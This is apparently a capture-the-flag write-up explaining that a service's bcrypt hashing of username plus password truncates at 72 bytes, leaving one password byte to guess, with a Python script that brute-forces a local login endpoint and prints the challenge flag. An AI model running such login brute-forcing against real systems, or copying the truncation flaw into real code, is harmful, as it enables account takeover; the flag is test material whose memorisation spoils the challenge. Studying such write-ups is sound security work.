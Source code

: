 ```yaml
---
ai_date: 2025-04-27 05:26:15
ai_summary: BCrypt vulnerability due to appending password to username, allowing brute forcing of a single byte.
ai_tags:
  - bcrypt
  - length-extension
  - brute-force
created: 2025-03-02T07:48
points: 450
solves: 7
updated: 2025-07-14T09:46
---
```


The 'trick' used created a vulnerbility.

> higgsloitadmin: Instead of hashing the password only, we append it to the username and hash the result.

bcrypt only processes the first 72 bytes of its input, so if the username is long (let's say 71 bytes), we only have to brute force 1 byte of information.

```python
import string
import requests

target = "http://127.0.0.1:16605"


def try_login(username, password):
    return requests.post(target + "/api/login", json={"username": username, "password": password}).json()


user = "broootheeer.meee.iii.duuupliiicaaateee.myyy.voooweeels.threee.tiiimeees"
password = "a"*16
for c in string.ascii_lowercase+string.digits:
    print(f"Trying {c}")
    res = try_login(user, c*16)
    if res['success']:
        print(f"Found: {c}")
        password = c*16
        break

s = requests.Session()
s.post(target + "/api/login", json={"username": user, "password": password})

print(s.get(target + "/flag").text)
```

```flag
ATHACKCTF{tldr_BCrypt_i$_limit3d_to_72_8yt3s}
```